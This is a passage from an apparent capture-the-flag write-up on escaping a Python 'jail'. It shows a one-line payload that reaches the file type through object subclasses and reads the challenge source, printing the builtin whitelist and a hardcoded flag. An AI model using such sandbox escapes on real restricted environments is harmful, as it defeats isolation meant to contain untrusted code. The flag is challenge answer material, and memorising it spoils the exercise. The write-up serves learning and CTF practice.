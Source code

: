 Sick!! So `jail.py` looks like what we want! Updating our file read command from before, but now reading `jail.py`:

{% highlight python %}
>>> print(().__class__.__bases__[0].__subclasses__()[40]('jail.py', 'r').read())
#!/usr/bin/python

import sys

class Sandbox(object):
    def execute(self, code_string):
        exec(code_string)
        sys.stdout.flush()

sandbox = Sandbox()

_raw_input = raw_input

main = sys.modules["__main__"].__dict__
orig_builtins = main["__builtins__"].__dict__

builtins_whitelist = set((
    #exceptions
    'ArithmeticError', 'AssertionError', 'AttributeError', 'Exception',

    #constants
    'False', 'None', 'True',

    #types
    'basestring', 'bytearray', 'bytes', 'complex', 'dict',

    #functions
    'abs', 'bin', 'dir', 'help'

    # blocked: eval, execfile, exit, file, quit, reload, import, etc.
))

for builtin in orig_builtins.keys():
    if builtin not in builtins_whitelist:
        del orig_builtins[builtin]

print("Find the flag.")
sys.stdout.flush()

def flag_function():
    flag = "csictf{m1ch34l_sc0fi3ld_fr0m_pr1s0n_br34k}"

while 1:
    try:
        sys.stdout.write(">>> ")
        sys.stdout.flush()
        code = _raw_input()
        sandbox.execute(code)

    except Exception:
        print("You have encountered an error.")
        sys.stdout.flush()
{% endhighlight %}
